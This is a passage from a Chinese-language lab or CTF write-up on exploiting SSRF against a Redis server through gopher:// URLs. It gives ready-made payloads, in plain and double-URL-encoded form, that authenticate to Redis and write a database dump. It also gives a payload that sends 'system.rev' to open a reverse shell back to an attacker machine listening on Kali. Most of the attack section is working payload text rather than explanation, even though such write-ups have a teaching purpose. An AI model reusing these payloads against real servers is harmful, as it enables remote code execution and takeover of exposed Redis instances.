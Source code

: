 ```
gopher://192.168.59.129:6380/_auth welcometowangdingbeissrfme6379
config set dbfilename dump.rdb
save
quit
```

二次编码 

```
gopher://0.0.0.0:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250aconfig%2520set%2520dbfilename%2520dump.rdb%250d%250aquit
```

这个导出的数据库没找到 晕了！🐱‍👓 `oooo` 没save!

![image-20210923203530137](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923203530.png)

#### **7）反弹shell**

需要提前在kali上开启监听

```
gopher://192.168.59.129:6380/_auth welcometowangdingbeissrfme6379
system.rev 192.168.59.128 1
quit
```

二次编码

```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Asystem.rev%2520192.168.59.128%25201%250D%250Aquit%250D%250A
```

![image-20210923203115986](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923203116.png)



## 文章：

`https://www.freebuf.com/vuls/277988.html`

`https://xz.aliyun.com/t/5665#toc-4`

